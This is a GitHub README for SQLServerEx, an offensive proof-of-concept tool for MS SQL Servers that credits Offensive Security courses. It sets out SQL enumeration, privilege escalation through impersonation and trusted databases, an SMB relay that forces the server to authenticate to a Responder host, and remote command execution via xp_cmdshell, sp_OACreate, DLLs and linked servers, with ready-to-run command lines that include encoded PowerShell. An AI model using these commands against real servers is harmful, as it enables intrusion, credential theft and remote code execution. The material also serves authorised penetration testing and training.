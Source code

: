 
### MS SQL Server Command Execution

SQLServerEx is a PoC designed to execute commands / code on remote MS SQL Servers via publicly known vectors. The tool was inspired by Offensive Security courses so all kudos to them, I just put some dotNETs together.

Could be executed in both interactive and non-interactive modes providing command line arguments. Current functionality includes:

* Retrieves current user roles, linked servers and logins to be impersonated.
* Smb Relay Attack.
* Command execution via Linked Servers, Xp_cmdshell, sp_OACreate, invoking DLLs.
* PrivEsc via user impersonation and db_owner vectors.
* Reflective loading via exposed StartR method.

#### SQL server enumeration:

Could be done under current domain user context or with supplied credentials:

```
SQLServerEx.exe -s SQLSERVER1 -d master
SQLServerEx.exe -s SQLSERVER1 -u sa -p Password1
```
`-d` is an optional target database to connect. Defaults to master. Credentials are optional too.

Privilege escalation via trusted database:

```
SQLServerEx.exe -s SQLSERVER1 -e escalate -o msdb
SQLServerEx.exe -s SQLSERVER1 -u user -p MyPassword! -e escalate -o msdb
```

#### Command execution

SMB relay. Forces the SQL server to authenticate against SMB share:

```
SQLServerEx.exe -s SQLSERVER1 -d master -e relay -r RESPONDER
```

Various command execution methods. The result will include the first line of the output only. For most commands it would be the blind execution.

```
SQLServerEx.exe -s SQLSERVER1 -e xpshell -i sa -c "whoami && hostname"
SQLServerEx.exe -s SQLSERVER1 -e sp -i dbo -c "powershell -enc ZQBjAG"
SQLServerEx.exe -s SQLSERVER1 -e rundll -c "whoami && hostname"
```
`-i` is an optional user to impersonate. Defaults to sa.

Command exec on the linked SQL server:

```
SQLServerEx.exe -s SQLSERVER1 -i sa -e link -l LINKEDSQLSERVER3 -c "powershell -enc ZQBjAG"
```